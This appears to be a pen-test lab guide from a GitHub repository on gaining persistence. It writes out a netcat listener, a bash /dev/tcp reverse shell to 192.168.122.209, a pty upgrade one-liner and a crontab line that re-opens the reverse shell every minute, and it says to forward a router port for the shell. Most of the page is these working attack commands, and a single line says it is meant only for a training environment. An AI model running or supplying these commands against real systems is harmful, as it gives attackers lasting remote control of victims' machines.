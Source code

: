 # Persistence


Setup a way for the box to always send you a reverse shell.

Open up router and set up a port for persistant shell 
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/fecedce9-86d4-4bc3-846f-0cb2133a8743)
***Make sure Redirect target port is 22.***

listner is netcat.

(upgrade) 

```
python -c 'import pty; pty.spawn("/bin/bash")'
```


### (ATTACKER) 

```
nc -lvp 55556
```

### (VICTIM) 

```
sh -i >& /dev/tcp/192.168.122.209/55556 0>&1 
```

![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/e0694c70-c931-4ca7-96a6-6beddd645655)

(make sure to use your NAT port)


```
id 
```
(to verify connection) 

Remember when you catch you type `(id)` (if connection works now enter syntax in the crontab)
```
crontab -e  
```

(or)

```
sudo crontab -e
```
select (1) enter

In crontab do note the `(*)` you need all 5.

```
* * * * * sh -i >& /dev/tcp/192.168.122.209/55556 0>&1
```


 (enter this at the bottom of cron tab make sure you add 5 `(*)` with spaces inbetween then your syntax from your reverse shell generator)

make sure to comment `(#)` out #Your Name then put in your command.

(change your syntax with Reverse shell Gen if first one doesint work) Python3 shortest > /bin/bash > copy (refer to screen shot )
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/e5be6801-7fd9-4e27-9a35-10f9955cc2f1)



![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/7fc7b2d9-c61f-496f-89cd-c8cfb1a51b89)

***This Example is only for training environment! you shouldn't be putting your name on anything! dont be that guy*** :see_no_evil:

(make sure to update crontab with new syntax if you changed it then redo listener)

(now when your terminal is killed or you reboot VVM just repeat the nc -lvp and your back in)
